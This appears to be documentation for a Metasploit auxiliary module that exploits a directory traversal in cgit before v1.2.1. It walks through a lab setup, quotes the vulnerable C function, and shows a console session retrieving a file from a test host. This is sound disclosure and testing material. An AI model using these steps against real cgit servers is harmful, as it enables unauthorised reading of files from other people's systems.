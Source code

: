 ## Description

cgit before v1.2.1 has a directory traversal vulnerabiltiy when `cgitrc` has the `enable-http-clone` value set to 1. The directory traversal can be used to download files from the remote host. This module has been tested against cgit v1.1 running on Ubuntu 18.04.

## Vulnerable Application

[cgit before v1.2.1](https://git.zx2c4.com/cgit/)

### Installing cgit on Ubuntu 18.04 x64

1. `sudo apt install cgit` # [dependencies](https://git.zx2c4.com/cgit/tree/README) may have to be downloaded first
2. Modify `/etc/cgitrc` to have `enable-http-clone=1`. Example attached.
3. Add `.htaccess` file with rewrite rules to `/usr/lib/cgit/`. Example attached.
4. Add `cgit.conf` to `/etc/apache2/conf-enabled/`. Example attached.
5. Enable `rewrite.load` and `cgi.load` in apache2.
6. Create bare repo. `mkdir -p repo/test.git && cd repo/test.git && git init --bare`

Example files were only used for testing and are likely not secure (probably not the best examples either...). I'm adding the files because it took me a long time to get this setup (re: my apache skills are lacking).

[cgit.conf.txt](https://github.com/rapid7/metasploit-framework/files/2284678/cgit.conf.txt)
[cgitrc.txt](https://github.com/rapid7/metasploit-framework/files/2284679/cgitrc.txt)
[htaccess.txt](https://github.com/rapid7/metasploit-framework/files/2284680/htaccess.txt)

### Vulnerability Details from Project Zero

There is a directory traversal vulnerability in cgit_clone_objects(), reachable when the configuration flag enable-http-clone is set to 1 (default):

```
void cgit_clone_objects(void)
{
    if (!ctx.qry.path) {
        cgit_print_error_page(400, "Bad request", "Bad request");
        return;
    }

    if (!strcmp(ctx.qry.path, "info/packs")) {
        print_pack_info();
        return;
    }

    send_file(git_path("objects/%s", ctx.qry.path));
}
```

send_file() is a function that simply sends the data stored at the given filesystem path out over the network.
git_path() partially rewrites the provided path and e.g. prepends the base path of the repository, but it does not sanitize the provided path to prevent directory traversal.

ctx.qry.path can come from querystring_cb(), which takes unescaped data from the querystring.

## Options

**REPO**

Git repository on the remote server. Default is empty, `''`.

## Verification Steps

1. `./msfconsole -q`
2. `set rhosts <rhost>`
3. `set targeturi <uri>`
4. `set repo <repo>`
5. `run`

## Scenarios

### Ubuntu 18.04 x64, cgit | 1.1+git2.10.2-3build1

```
msf5 > use auxiliary/scanner/http/cgit_traversal
msf5 auxiliary(scanner/http/cgit_traversal) > set rhosts 172.22.222.123
rhosts => 172.22.222.123
msf5 auxiliary(scanner/http/cgit_traversal) > set targeturi /mygit/
targeturi => /mygit/
msf5 auxiliary(scanner/http/cgit_traversal) > set repo test
repo => test
msf5 auxiliary(scanner/http/cgit_traversal) > set filepath /home/msfdev/proof.txt
filepath => /home/msfdev/proof.txt
msf5 auxiliary(scanner/http/cgit_traversal) > set verbose true
verbose => true
msf5 auxiliary(scanner/http/cgit_traversal) > run

[+] 172.22.222.123:80     - 
you found me!

[+] File saved in: /home/msfdev/.msf4/loot/20180813150517_default_172.22.222.123_cgit.traversal_235024.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
